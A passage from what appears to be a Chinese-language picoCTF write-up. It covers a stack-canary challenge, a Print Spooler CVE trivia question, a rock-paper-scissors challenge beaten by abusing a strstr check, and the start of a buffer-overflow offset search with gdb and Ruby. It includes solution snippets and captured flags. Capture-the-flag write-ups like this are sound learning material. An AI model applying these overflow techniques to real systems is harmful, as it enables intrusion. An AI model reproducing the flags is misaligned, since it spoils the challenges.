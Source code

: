 ```ruby
# => How Many Bytes will You Write Into the Buffer?
# > Input> Ok... Now Where's the Flag?
# picoCTF{Stat1C_c4n4r13s_4R3_b4D_9602b3a1}
```

### CVE-XXXX-XXXX
一道历史题... 

[相关历史](https://blog.qualys.com/vulnerabilities-threat-research/2021/07/07/microsoft-windows-print-spooler-rce-vulnerability-printnightmare-cve-2021-34527-automatically-discover-prioritize-and-remediate-using-qualys-vmdr)

有点意思, 没想到老是背锅的Windows在这里都不放过对它的鞭尸. 
具体的我就不了解了. 这道题就是一个联系搜索引擎的题目. 
仅此而已.

> The CVE we're looking for is the first recorded 
> remote code execution (RCE) vulnerability in 2021 
> in the Windows Print Spooler Service, which is 
> available across desktop and server versions of 
> Windows operating systems. The service is used to 
> manage printers and print servers.

### RPS
题目是一个剪刀石头布的比赛, 正常应该是通过时间和伪随机数来攻击, 
得到其输出的规律. 但是我发现: 

发现这个比较石头剪刀布的胜利与否的函数竟然是一个
`strstr`函数, 也就是说, 只要有匹配的字符串, 那么就会胜利. 

于是构造这样的出拳: `rockpaperscissors`, 这样呢, 会怎么样? 

```ruby
6.times do
  puts "1", "rockpaperscissors"
end
```

呃, 完胜啊. (小孩子才做选择, 我全都上. )

`picoCTF{50M3_3X7R3M3_1UCK_C85AF58A}`

### x-sixty-what
这个题目和之前的问题很像. 

```shell
> gdb vuln
gdb-peda$ i functions 
0x00000000004012b2  vuln
gdb-peda$ r <<< $( ruby -e ' t = "z"; 100.times do print(t.succ!) end ' )
Stopped reason: SIGSEGV
0x6e626d626c626b62 in ?? ()
```

```irb
3.0.0 :002 > s = "aaabacadaeafagahaiajakalamanaoapaqarasatauavawaxayazbabbbcbdbe
bfbgbhbibjbkblbmbnbobpbqbrbsbtbubvbwbxbybzcacbcccdcecfcgchcicjckclcmcncocpcqcrcs
ctcucvcwcxcyczdadbdcdddedfdgdhdidjdkdldmdndodpdqdrdsdtdudv"
 => "aaabacadaeafagahaiajakalamanaoapaqarasatauavawaxayazbabbbcbdbebfbgbhb... 
3.0.0 :003 > addr = "\x6e\x62\x6d\x62\x6c\x62\x6b\x62"
 => "nbmblbkb" 
3.0.0 :004 > s.index addr.reverse
 => 72
```
